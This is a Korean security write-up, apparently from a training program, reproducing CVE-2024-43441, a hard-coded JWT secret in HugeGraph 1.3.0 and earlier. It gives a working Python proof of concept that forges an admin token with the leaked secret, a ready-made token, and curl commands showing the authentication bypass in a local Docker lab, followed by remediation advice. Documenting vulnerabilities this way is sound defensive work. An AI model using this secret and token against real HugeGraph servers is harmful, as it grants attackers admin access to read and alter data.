 # CVE-2024-43441 | HugeGraph JWT Secret Hard‑Coded

> 화이트햇 스쿨 3기 - [송은우 (@le0s1mba)](https://github.com/le0s1mba)

<br/>

### 요약

HugeGraph 1.3.0 이하 버전에서는 JWT Secret 키가 코드에 하드코딩되어 있어, 해당 키로 임의의 토큰을 발급 받아 인증 과정을 우회할 수 있다.

<br/>

### PoC

Docker 환경에서 HugeGraph 1.3.0을 실행하고, 하드코딩된 비밀키로 JWT 토큰을 생성하여 인증을 우회한다.

```
import jwt

token = jwt.encode(
    {
        "user_name" : "admin",
        "user_id" : "-30:admin",
        "exp" : 9739523483
    },
    "FXQXbJtbCLxODc6tGci732pkH1cyf8Qg",
    algorithm="HS256"
)

print(f"JWT token : {token}")
```

<br/>

### 환경 구성 및 실행

- ```docker compose up -d``` 명령어로 환경을 먼저 실행시킨다.
- ```python3 poc.py``` 명령어로 토큰을 발급 받는다.
  
<br/>

### 결과

**인증 없음**

```curl -i http://127.0.0.1:8080/graphs```

<br/>

![normal](./not_auth.png)

헤더에 토큰이 없으므로 ```AuthFilter```단계에서 바로 차단된다.

<br/>

**JWT 우회**

```export TOKEN='eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.eZxB0qIsVEtRuOMwXbOhENwS-OoY0miStHOQlBdJXt8'; curl -i -H "Authorization: Bearer $TOKEN" http://127.0.0.1:8080/graphs```

<br/>

![normal](./auth.png)

발급 받은 jwt 토큰을 서버가 정상 토큰으로 인식하여 인증을 우회한다.

<br/>

### 정리

CVE-2024-43441 취약점으로 인해 하드코딩된 JWT Secret을 통해 인증이 완전히 우회된다. 

이를 통해 공격자는 관리자로 위장하여 HugeGraph REST API에 접근하고 데이터를 조작할 수 있다. 

취약점 대응을 위해 HugeGraph를 1.3.1 이상으로 업그레이드하거나, 외부 설정 파일에 안전한 Secret 키를 지정하고 관리 포트 접근을 제한해야 한다.
